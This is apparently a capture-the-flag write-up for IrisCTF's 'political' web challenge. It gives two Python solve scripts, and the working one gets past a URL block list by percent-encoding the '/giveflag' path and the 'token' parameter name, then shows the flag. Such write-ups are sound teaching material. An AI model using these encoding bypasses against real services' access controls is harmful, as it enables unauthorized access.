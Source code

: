 ```yaml
---
ai_date: '2025-04-27 05:27:17'
ai_summary: Bypassed URL encoding to exploit '/giveflag' endpoint
ai_tags:
- url-encoding
- bypass
- http-params
created: 2025-01-04T20:01
points: 50
solves: 152
tags:
- url
- normalization
updated: 2025-01-06T23:20
---
```


I knew from a glance that we have to bypass the url block list.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736122279/2025/01/eb88daca51107b101aaaa0a81793cbac.png)

I knew I can just use a second argument to bypass `token`, but idk how to bypass `*/giveflag`

```python
import requests
from pwn import *
context.log_level = "error"
t = "https://political-web.chal.irisc.tf"
token = requests.get(t + "/token").text
print(token)
p = t+'/giveflag?foo=bar&token='+token

conn = remote("political-bot.chal.irisc.tf", 1337)
conn.sendline(p.encode())
print(p)
sleep(2)
print(conn.recvall().decode())
print(requests.post(t + "/redeem", data={"token": token}).text)
```

My teammate @dxleryt then solved it.

```python
import requests
from pwn import *

context.log_level = "error"

t = "https://political-web.chal.irisc.tf"
token = requests.get(t + "/token").text
print(token)

encoded_p = t + "/%2fgiveflag?%74oken=" + token

conn = remote("political-bot.chal.irisc.tf", 1337)
conn.sendline(encoded_p.encode())
print(encoded_p)
sleep(2)
print(conn.recvall().decode())
print(requests.post(t + "/redeem", data={"token": token}).text)
```

```flag
irisctf{flag_blocked_by_admin}
```